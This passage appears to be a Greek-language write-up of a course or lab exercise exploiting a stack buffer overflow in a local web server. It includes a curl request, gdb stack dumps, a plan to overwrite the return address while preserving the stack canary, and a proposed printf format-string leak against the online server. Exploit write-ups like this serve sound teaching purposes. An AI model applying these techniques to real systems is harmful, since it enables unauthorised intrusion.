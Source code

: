 ```
Πριν φτιαχτεί το αυτοματοποιημένο script που θα αναφερθεί παρακάτω, καθαρά για την κατανόηση της στοίβας και την ενορχήστωση του attack, τρέχαμε την ακόλουθη curl εντολή.<br>
```
curl -d "3" -v 'http://127.0.0.1:8000/ultimate.html' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0' -H 'Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Content-Length: 0' -H 'Upgrade-Insecure-Requests: 1' -H 'Authorization: Basic YWRtaW46MTIzNA=='
```
**Σημαντική** ήταν η προσθήκη της παραμέτρου **'Content-Length: 0'**, που έκανε το μέγεθος του buffer να παραμένει σταθερό (payload_size στον κώδικα). Στην παράμετρο **'Authorization: Basic YWRtaW46MTIzNA=='** περιέχεται το Base64 encoded format των credentials που είχαμε θέσει τοπικά στο μηχάνημά μας. <br>

Στην μνήμη όπως φαίνεται παραπάνω ξεκινώντας από τον $esp, μπορούμε να εξάγουμε τις ακόλουθες πληροφορίες:
  * 13 words
  * Διεύθυνση του buffer (&post_data) -> ```0xffffcba0```
  * 1 word
  * Canary -> ```0x60be5800```
  * 2 words
  * Saved $ebp -> ```0xffffcc88```
  * Return address -> ```0x565569ab```
 
 Στόχος μας λοιπόν ήταν αφού εκτελεστεί η εντολή  ```strcpy(post_data, payload);```, η μνήμη που φαίνεται παραπάνω να αντικατασταθεί με:
  * 13 "τυχαία" words
  * Διεύθυνση του buffer (&post_data) να παραμείνει ίδια
  * 1 "τυχαίο" word
  * Canary να παραμείνει ίδιο
  * Το ακριβώς επόμενο word να παραμείνει ίδιο
  * 1 "τυχαίο" word
  * Saved $ebp να παραμείνει ίδιος
  * Διεύθυνση της εντολής που καλεί την serve_ultimate μέσα στην route (***main.c:59***) 

Πλέον η μνήμη θα είναι κάπως έτσι.
<br>
```
  0xffffcba0:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
  0xffffcbb0:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
  0xffffcbc0:     0xaaaaaaaa      0xaaaaaaaa      0xffffcba0      0xffffcbfd
  0xffffcbd0:     0xaaaaaaaa      0xffffcba0      0xaaaaaaaa      0x60be5800
  0xffffcbe0:     0x56559f10      0xaaaaaaaa      0xffffcc88      0x565569e2
  
  (gdb) x/i 0x565569e2
     0x565569e2 <route+443>:      call   0x5655717d <serve_ultimate>

```
<br> Στα πρώτα 13 words όσα δεν είναι padding (0xaaaaaaaa) είναι επειδή έχουν αλλάξει μόνα τους από τον κώδικα μετά την strcpy.

### Υπολογισμός offsets & διαμόρφωση στοίβας

Αφού ολοκληρώσαμε επιτυχώς τοπικά το attack, αλλάζοντας την μνήμη μέσω του gdb με την βοήθεια της εντολής ```set {int} addr1 = addr2```, έπρεπε να βρούμε έναν τρόπο να αντλήσουμε πληροφορίες για την μνήμη της στοίβας του online server, καθώς δεν θα είχαμε την ευχέρεια του gdb όπως την είχαμε τοπικά στο μηχάνημά μας. Τότε σκεφτήκαμε να εκμεταλλευτούμε το vulnerability της printf από το προηγούμενο ερώτημα και να εκτυπώσουμε δεδομένα απο την στοίβα.<br>

![1](https://i.ibb.co/wNVg9X9/Screenshot-2021-07-16-09-32-58.png)<br>

```
